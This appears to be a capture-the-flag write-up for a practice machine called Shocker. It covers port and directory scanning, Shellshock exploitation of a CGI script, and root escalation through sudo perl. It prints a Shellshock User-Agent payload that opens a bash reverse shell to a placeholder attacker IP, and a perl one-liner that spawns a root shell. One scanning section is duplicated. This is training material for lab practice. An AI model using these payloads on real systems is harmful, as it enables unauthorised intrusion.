






# Enumeration

## Run Nmap Scan

```bash
nmap 10.10.10.56 -p- -sC -sV --min-rate 6000 -Pn -n -oA tcpDetailed

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 11:53 BST
Nmap scan report for 10.10.10.56
Host is up (2.8s latency).
Not shown: 63981 filtered tcp ports (no-response), 1553 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.27 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/common.txt

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/11 12:01:23 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
                                               
===============================================================
2023/09/11 12:02:44 Finished
===============================================================
"
```

`/CGI-BIN` is a technology that lets us execute a program to show a dynamic webpage. But it contains a vulnerability called **Shellshock**

### Finding cgi-bin script through additional bruteforcing

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x pl,sh,cgi -f

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              pl,sh,cgi
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/09/11 12:11:06 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
Progress: 2056 / 350660 (0.59%)               ^C
[!] Keyboard interrupt detected, terminating.
                                               
===============================================================
2023/09/11 12:11:42 Finished
===============================================================
"
```

1 route is enough to exploit the shellshock vulnerability

`/CGI-BIN` is a technology that lets us execute a program to show a dynamic webpage. But it contains a vulnerability called **Shellshock**

### Finding cgi-bin script through additional bruteforcing

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x pl,sh,cgi -f

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              pl,sh,cgi
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/09/11 12:11:06 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
Progress: 2056 / 350660 (0.59%)               ^C
[!] Keyboard interrupt detected, terminating.
                                               
===============================================================
2023/09/11 12:11:42 Finished
===============================================================
"
```

1 route is enough to exploit the shellshock vulnerability

# Exploitation

## Execute Burp Suite

After running burp suite route to the cgi-bin script route



## Send the Proxy Result to the Repeater





## What to change?

 Add this command after `User-Agent:`

```bash
() { :; }; <command to execute>
```

## Listening Reverse Shell and Exploit

```bash
nc -lvnp 4444
```

So I generated reverse shell code to execute at the victim side

```bash
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<Attacker IP>/4444 0>&1
```





# Privilege Escalation

Let’s check what user **shelly** can execute in root permission

```bash
sudo -l

"
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
"
```

Here we can know that `/usr/bin/perl` can be executed in privileged mode without any password

We can use perl to get root shell through [GTFOBIN](https://gtfobins.github.io/)

```bash
sudo perl -e 'exec "/bin/sh";

"
whoami
root
"
```